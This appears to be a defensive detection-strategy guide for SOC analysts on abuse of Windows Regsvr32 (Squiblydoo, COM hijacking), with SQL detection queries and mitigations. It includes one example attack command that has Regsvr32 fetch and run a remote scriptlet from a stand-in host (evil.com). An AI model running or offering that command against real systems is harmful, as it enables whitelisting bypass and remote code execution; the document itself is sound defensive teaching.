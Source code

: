 ### Alerting and Detection Strategy (ADS) for Malicious Use of Regsvr32 in Windows Environments

#### Overview

- **ADS ID**: ADS-2023-001
- **Title**: Detecting Malicious Use of Regsvr32 in Windows
- **Last Modified**: September 3, 2023
- **Version**: 1.0
- **Related ATT&CK Technique**: [T1218.010 - Regsvr32](https://attack.mitre.org/techniques/T1218/010/)
- **Author**: Cybersecurity Team

#### Objective

To provide a comprehensive guide for detecting malicious activities involving the use of `Regsvr32.exe` in Windows environments. This document aims to educate both junior and senior cybersecurity analysts in Security Operations Centers (SOCs) on the intricacies of `Regsvr32.exe` and how it can be abused.

#### Technical Context

##### What is Regsvr32?

`Regsvr32.exe` is a command-line utility in Windows used for registering and unregistering Object Linking and Embedding (OLE) controls, including Dynamic Link Libraries (DLLs). It is commonly located in `C:\\Windows\\System32\\`.

##### Legitimate Usage

In a legitimate context, `Regsvr32` is often used by administrators and software installers to register DLLs or ActiveX controls in the Windows Registry. The typical syntax for legitimate usage is:

\`\`\`bash
Regsvr32.exe /s /i somefile.dll
\`\`\`

##### Malicious Usage

###### Squiblydoo Attack

One of the most notorious techniques involving `Regsvr32` is the Squiblydoo attack. It allows an attacker to bypass application whitelisting defenses by loading a COM scriptlet from a remote server. The syntax is:

\`\`\`bash
Regsvr32.exe /u /n /s /i:http://evil.com/malicious.sct scrobj.dll
\`\`\`

###### COM Object Hijacking

`Regsvr32` can also be used to register a malicious COM Object for persistence via Component Object Model Hijacking.

###### Examples

- APT32 used `Regsvr32` to execute a COM scriptlet that dynamically downloaded a backdoor.
- Cobalt Group used `Regsvr32.exe` to execute scripts.

#### Data Sources

- Windows Event Logs
- Network Traffic Logs
- Endpoint Detection and Response (EDR) Logs

#### Detection Strategy

##### Indicators of Compromise (IoCs)

- Unusual network connections initiated by `Regsvr32.exe`.
- Registration or unregistration of suspicious or unknown DLLs.

##### Analytics

**Generic Regsvr32 Detection**

\`\`\`sql
SELECT * FROM process_events WHERE parent_process_name = 'regsvr32.exe' AND process_name != 'regsvr32.exe';
\`\`\`

**Squiblydoo Detection**

\`\`\`sql
SELECT * FROM process_events WHERE process_name = 'regsvr32.exe' AND command_line LIKE '%scrobj.dll%';
\`\`\`

#### Mitigations

- Use application control tools like Windows Defender Application Control to block unauthorized usage of `Regsvr32`.
- Employ network segmentation and firewall rules to restrict `Regsvr32` from making outbound connections.

#### References

- [MITRE ATT&CK: Regsvr32](https://attack.mitre.org/techniques/T1218/010/)
- [Red Canary: Technique T1117](https://redcanary.com/blog/3-technique-regsvr32-t1117/)
- [LOLBAS Project: Regsvr32](https://lolbas-project.github.io/lolbas/Binaries/Regsvr32/)
- [iRed Team: T1117 Regsvr32 aka Squiblydoo](https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo)

---

This document is intended to be a living resource. As new techniques and tactics are developed by adversaries, this ADS will be updated to reflect those changes.
